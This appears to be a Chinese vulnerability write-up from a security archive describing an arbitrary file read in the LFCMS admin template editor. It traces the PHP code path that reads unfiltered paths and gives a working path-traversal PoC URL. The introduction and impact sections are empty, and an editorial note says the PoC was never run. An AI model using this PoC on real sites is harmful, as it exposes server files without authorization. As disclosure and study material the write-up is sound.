


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：后台模板编辑权限

- **适用与权限边界（1）**：与247正文同源，标题丢后台条件；版本空白。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（2）**：资源不同应比对图片后择优合并，源码多余括号不影响所述根因但需清理。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# LFCMS任意文件读取

### 一、漏洞简介 ###

### 二、漏洞影响 ###

### 三、复现过程 ###

漏洞起始点位于/Application/Admin/Controller/TemplateController.class.php中的edit方法，该方法用作后台模板编辑，关键代码如下

我们传入的路径需要将/替换为*接着调用了read方法，跟进该方法
    
    public function read($filename,$type=''){
      return $this->get($filename,'content',$type);
    }
继续跟进get方法
    
    public function get($filename,$name,$type='') {
    if(!isset($this->contents[$filename])) {
    if(!is_file($filename)) return false;
    $this->contents[$filename]=file_get_contents($filename);
    }
    $content=$this->contents[$filename];
    $info   =   array(
    'mtime' =>  filemtime($filename),
    'content'   =>  $content
    );
    return $info[$name];
    }
    }
该方法中返回了要读取的文件内容，可以看到在整个流程中没有对传入参数path的过滤，导致我们可以跨目录读文件，下面来验证一下，尝试读取一下跟目录index.php文件，测试链接如下

    http://lfcms.com/admin.php?s=/Template/edit/path/*..*index.php

成功的读到了CMS的入口文件

### 参考链接 ###
https://xz.aliyun.com/t/7844#toc-4

---

> 来源：白阁文库 BaizeSec/bylibrary
